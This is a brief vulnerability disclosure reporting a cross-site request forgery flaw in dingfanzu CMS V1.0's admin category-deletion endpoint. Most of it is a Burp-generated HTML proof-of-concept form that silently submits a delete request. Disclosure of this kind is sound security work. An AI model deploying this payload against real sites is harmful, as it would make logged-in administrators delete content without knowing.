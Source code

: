 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=delCate&id=31

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=delCate&id=31" method="POST">
      <input type="hidden" name="act" value="delCate" />
<input type="hidden" name="id" value="31" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

